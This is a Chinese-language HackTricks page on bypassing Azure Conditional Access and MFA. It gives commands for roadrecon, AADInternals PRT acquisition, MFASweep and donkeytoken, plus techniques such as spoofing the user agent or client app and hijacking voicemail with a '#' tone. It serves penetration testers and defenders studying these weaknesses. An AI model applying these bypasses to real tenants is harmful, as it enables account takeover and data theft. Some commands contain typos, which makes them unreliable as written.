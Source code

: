 # Az - 条件访问策略 / MFA 绕过

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

Azure 条件访问策略是在 Microsoft Azure 中设置的规则，用于根据某些 **条件** 强制执行对 Azure 服务和应用程序的访问控制。这些策略帮助组织通过在适当的情况下应用正确的访问控制来保护其资源。\
条件访问策略基本上 **定义** **谁** 可以从 **哪里** 和 **如何** 访问 **什么**。

以下是几个示例：

1. **登录风险策略**：此策略可以设置为在检测到登录风险时要求多因素身份验证 (MFA)。例如，如果用户的登录行为与其常规模式相比不寻常，例如从不同国家登录，系统可以提示进行额外的身份验证。
2. **设备合规性策略**：此策略可以限制对 Azure 服务的访问，仅限于符合组织安全标准的设备。例如，只有在设备上安装了最新的防病毒软件或运行特定操作系统版本的情况下，才允许访问。

## 条件访问策略绕过

条件访问策略 **检查一些可以轻易篡改的信息，从而允许绕过该策略**。例如，如果该策略配置了 MFA，攻击者将能够绕过它。

### 设备平台 - 设备条件

可以基于 **设备平台**（Android、iOS、Windows、macOS）设置条件，但这基于 **用户代理**，因此很容易绕过。即使 **强制所有选项启用 MFA**，如果使用 **未被识别的用户代理**，也将能够绕过 MFA。

### 位置：国家、IP 范围 - 设备条件

当然，如果在条件策略中设置了这一点，攻击者可以使用 **VPN** 在 **允许的国家** 中，或尝试找到从 **允许的 IP 地址** 访问的方法来绕过这些条件。

### Office365 客户端应用

您可以指示如果客户端 **从浏览器访问 Office 365 应用，则需要 MFA**：

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

要绕过此限制，可以假装您是从桌面应用程序（例如以下示例中的 Microsoft Teams）登录应用，这将绕过保护：
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
由于 Microsoft Teams 应用程序具有很多权限，您将能够使用该访问权限。

{% hint style="success" %}
您可以在 roadtools 数据库中找到具有预定义 Office365 权限的更多公共应用程序的 I**D**：

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

这个攻击特别有趣，因为默认情况下，公共 Office365 应用程序将具有访问某些数据的权限。

### 其他应用

默认情况下，用户创建的其他应用将没有权限，并且可能是私有的。\
然而，用户也可以创建 **公共** **应用** 授予它们一些 **权限**。

一个潜在的场景是，当用户使用 **浏览器** 访问一个 **应用** 时，策略被设置为 **要求 MFA**（也许因为它是一个网络应用，因此这是唯一的方式），如果存在一个 **代理应用** - 一个被允许 **代表用户与其他应用交互的应用** - 用户可以 **登录代理应用**，然后通过这个代理应用 **登录到最初受 MFA 保护的应用**。

查看 [**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) 和 [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken) 技术。

## 其他 Az MFA 绕过

### 振铃

一个 Azure MFA 选项是 **接收在配置的电话号码上的电话**，在电话中会要求用户 **发送字符 `#`**。

{% hint style="danger" %}
由于字符只是 **音调**，攻击者可以 **破坏** 该电话号码的 **语音邮件** 消息，将 **音调 `#`** 配置为消息，然后在请求 MFA 时确保 **受害者的电话正在忙**（拨打它），这样 Azure 的电话就会被重定向到语音邮件。
{% endhint %}

### 合规设备

策略通常要求合规设备或 MFA，因此 **攻击者可以注册一个合规设备**，获取 **PRT** 令牌并 **以此方式绕过 MFA**。

首先在 Intune 中注册一个 **合规设备**，然后使用以下命令 **获取 PRT**：
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
在以下页面中找到有关此类攻击的更多信息：

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## 工具

### [roadrecon](https://github.com/dirkjanm/ROADtools)

获取所有策略
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep 是一个 PowerShell 脚本，尝试使用提供的凭据 **登录到各种 Microsoft 服务，并尝试识别 MFA 是否已启用**。根据条件访问策略和其他多因素身份验证设置的配置，某些协议可能最终只使用单因素身份验证。它还对 ADFS 配置进行了额外检查，并可以尝试登录到检测到的本地 ADFS 服务器。
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token 是一组旨在帮助安全顾问验证条件访问策略、测试启用 2FA 的 Microsoft 门户等的功能。
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**测试每个门户**，以确定是否可以**在没有 MFA 的情况下登录**：
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
因为**Azure** **门户**是**不受限制**的，因此可以**从门户端点收集令牌以访问之前执行检测到的任何服务**。在这种情况下，识别出了Sharepoint，并请求访问它的令牌：

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

假设令牌具有 Sites.Read.All（来自 Sharepoint）的权限，即使由于 MFA 您无法通过网络访问 Sharepoint，仍然可以使用该令牌访问使用生成的令牌的文件：
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## 参考

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
